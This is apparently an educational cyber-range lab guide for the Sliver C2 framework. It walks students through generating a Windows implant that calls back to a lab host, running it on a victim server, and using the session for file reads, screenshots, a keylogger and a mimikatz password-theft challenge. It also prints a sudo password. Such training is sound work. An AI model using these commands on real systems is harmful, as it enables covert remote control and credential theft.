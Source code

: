 > **Disclaimer:** The purpose of the lab environment is solely for educational and research purposes within the context of authorized and supervised activities. This lab environment is established to facilitate learning, analysis, and understanding of malware and related cybersecurity concepts. The malware lab environment is equipped with security measures to prevent unauthorized access and the spread of malware. However, it is essential to exercise caution and follow established protocols to minimize the risk of accidental exposure, infection, or unintended distribution of malware.

# Sliver C2 Botnet Instructions
Sliver is an open-source command and control (C2) botnet framework designed for educational purposes. The framework consists of a main server component that allows the deployment and management of botnet infrastructure. The server facilitates communication with the botnets.

C2 infrastructure operates by establishing a connection from the victim's machine back to the controller using outbound communication through well-known ports, such as HTTP. Typically, firewalls block incoming communication, but outbound communication through HTTP is commonly allowed. C2 botnet infrastructure exploits this by having the Sliver server listen for incoming communication from the botnet victims.

When a victim's machine is compromised and becomes part of the botnet, it runs with user privileges. This allows the controller to issue various commands to the botnet, essentially giving the controller control over the actions the victim machine performs. Consequently, the controller can carry out malicious activities using the compromised machines.

Please note that in your lab environment, all protection measures are disabled. However, in a real-world scenario, botnets can be thwarted by using up-to-date anti-malware software to prevent the initial implant from executing. If the initial infection occurs, it becomes more challenging to detect and stop the botnet's C2 communication, as the botnet attempts to camouflage itself as regular network traffic.

It is crucial to conduct these experiments and study the botnet framework within a controlled and strictly educational environment. The knowledge gained can contribute to understanding botnet behaviors, detecting and mitigating potential threats, and reinforcing cybersecurity practices.

## Accessing your Servers
You have 2 servers in your lab:
* **sliver-server**: Ubuntu server with the role of command and control of the botnet.
* **sliver-victim**: A test victim server used for installing implants.

> **Information:** When connecting to servers, it may be best to open this in an incognito browser to avoid caching the credentials used to connect. Only connect to one of the servers at a time, and then, only in incognito mode.

![image](https://github.com/emerginganalytics/cyberarena/assets/50710945/4b1ffb77-62f5-4208-89e7-fd88ef5be39c)

### Start and Run Sliver
Open the Sliver server interface, which will be an SSH command prompt. Run the following commands to start Sliver. If promted for the sudo password, enter in `Let's workout!`
```
sudo systemctl start sliver
sudo sliver
```
You should then see a prompt similar to the one below:
![image](https://github.com/emerginganalytics/cyberarena/assets/50633591/4e87efc9-669f-4d72-b099-308bf03cd49b)

### Generating the Implant
Run the following command to generate the botnet malware. This will take a few minutes and when it completes a new executable with an arbitrary name will be saved in the student directory indicated.
```
generate --mtls 10.1.1.20 --os windows --arch amd64 --format exe
```
When you create your implants, move them to the `/srv/sliver` folder on the Sliver server and change the permissions to allow execution in the commands below. Make sure you exist the sliver prompt by typing in `exit`.
```
cp ./<RANDOM_NAME>.exe /srv/sliver/
sudo chmod 777 /srv/sliver/<RANDOM_NAME>.exe
```
The `cp` command means copy and it copies the executable you just created to a directory /srv/sliver. For the nerds out there, a SAMBA server is running on the Ubuntu system that allows Windows systems to navigate to the executable using network shares.

Now you'll want to start the Botnet server so it will listen for the victim to communicate back to it. Run the following:
```
sudo sliver
sliver > mtls
```
Sliver is now waiting for clients to communicate back with it.

### Open your Victim Machine
Then, the malware can be accessed by your Windows server, sliver-victim, by opening a file explorer and navigating to `\\10.1.1.20\sliver`

Double click to run the executable. Nothing will happen, but the C2 backchannel communication will be established.

### Use Botnet Server
Go to the sliver-server and you should see a line like this:
```
[*] Session 40ecf1dd ...
```
This lets you know that a C2 channel is open to the victim. You can use this channel by typing:
```
use 1 (replace '1' with the first character of your session ID)
```
You can also list the sessions by typing `sessions` and find the session ID of the victim PC.

You can run commands similar to the following:
```
sliver (RANDOM_NAME) > info             # This will show you information about the remote PC
sliver (RANDOM_NAME) > execute calc     # Open the calculator application on the desktop
sliver (RANDOM_NAME) > execute notepad  # Open the notepad application on the desktop
```
Some other interesting commands:
```
sliver (RANDOM_NAME) > cat /users/cyberarena/sample.txt   # dumps the contents of a text file
sliver (RANDOM_NAME) > screenshot                         # Generate a current screenshot. You can move this to the /srv/sliver directory to view it
```

### Sliver Armory
The Sliver armory 
```
sudo sliver                               # If you're not already in the console.
sliver > armory install raw-keylogger     # Install a keylogger extension
sliver > user 1                           # Replace with the session ID
sliver (RANDOM_NAME) > raw-keylogger 1    # Starts the remote keylogger. You can go to the victim machine and type into a notepad.
sliver (RANDOM_NAME) > raw-keylogger 2    # Captures the keylogger output.
```
> **Challenge:** There's a secret password on the victim. See if you can use mimikatz through the Armory to recover the password.

### Sliver Network Communication Monitoring
You can observe the network traffic used by Sliver through the Wireshark application on the Windows victim desktop. Double click on Wireshark and include the filter `host 10.1.1.20` similar to the screenshot below, but make sure to use the IP address 10.1.1.20.
![image](https://github.com/emerginganalytics/cyberarena/assets/50633591/88443e75-ad85-402d-9bf3-19df26b92fe0)

You will start to see traffic coming across periodically. Here, you can observe the protocol used by Sliver.
